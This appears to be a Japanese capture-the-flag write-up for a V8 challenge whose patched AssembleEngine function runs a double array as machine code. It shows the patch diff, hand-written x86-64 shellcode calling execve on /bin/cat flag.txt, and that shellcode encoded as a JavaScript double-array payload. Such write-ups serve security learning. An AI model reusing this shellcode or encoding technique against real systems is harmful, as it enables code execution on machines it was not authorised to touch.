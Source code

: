 ## tl;dr

V8 exploit, shellcode

## プログラム

Google の開発している JavaScript Engine, V8 に patch をあてたものを与えられます。

patch の内、重要そうな所だけ切り取ります。

```diff
+void Shell::AssembleEngine(const v8::FunctionCallbackInfo<v8::Value>& args) {
+  Isolate* isolate = args.GetIsolate();
+  if(args.Length() != 1) {
+    return;
+  }
+
+  double *func = (double *)mmap(NULL, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
+  if (func == (double *)-1) {
+    printf("Unable to allocate memory. Contact admin\n");
+    return;
+  }
+
+  if (args[0]->IsArray()) {
+    Local<Array> arr = args[0].As<Array>();
+
+    Local<Value> element;
+    for (uint32_t i = 0; i < arr->Length(); i++) {
+      if (arr->Get(isolate->GetCurrentContext(), i).ToLocal(&element) && element->IsNumber()) {
+        Local<Number> val = element.As<Number>();
+        func[i] = val->Value();
+      }
+    }
+
+    printf("Memory Dump. Watch your endianness!!:\n");
+    for (uint32_t i = 0; i < arr->Length(); i++) {
+      printf("%d: float %f hex %lx\n", i, func[i], doubleToUint64_t(func[i]));
+    }
+
+    printf("Starting your engine!!\n");
+    void (*foo)() = (void(*)())func;
+    foo();
+  }
+  printf("Done\n");
+}
+
```

要はどういう事かと言うと、`AssembleEngine` の引数である double 型の配列を関数として実行するという事です。

## 解法

引数をそのまま実行しているので、shellcode を渡せば良さそうですが、引数は double になるのでバイナリを double に変換する必要があります。

これは、[変換してくれるサイト](https://silight.hatenablog.jp/entry/2016/08/23/212820) に投げる事ができます。

あとは shellcode を double に変換して投げるだけ... かのように思えますが、サーバーのプログラムを見ると shell を起動した後に入力を投げられないのでどうしようもありません。

そこで、仕方なく `execve("/bin/cat",["/bin/cat","flag.txt","NULL"],NULL)` を実行する shellcode を書く事にしました。

```asm
xor rax, rax;
xor rbx, rbx;
push rbx;
mov rbx, 0x7478742e67616c66;
push rbx;
push rsp;
pop rbx;
xor rcx, rcx;
push rcx;
mov rcx, 0x7461632f6e69622f;
push rcx;
push rsp;
pop rcx;
push rax;
push rbx;
push rcx;
push rsp;
pop rsi;
xor rbx, rbx;
push rbx;
mov rbx, 0x7461632f6e69622f;
push rbx;
push rsp;
pop rdi;
mov rax,0x3b;
cdq;
syscall;
```

コード長に余裕があるので無駄が多いのには目を瞑る事にしまして、これをバイナリに変換、double に変換した後の payload は以下となります。

```js
a=[2.7026887202725384e+40,1.7058643057456954e+272,9.788141225661296e+85,5.9310264137817665e+169,5.862568898663912e+83,-4.0246577527869836e-23,3.9836583598199556e+252,1.5438141401635297e-307,-6.827649529945208e-229];AssembleEngine(a);
```

これを投げると、見事に FLAG が出力されます。やったね！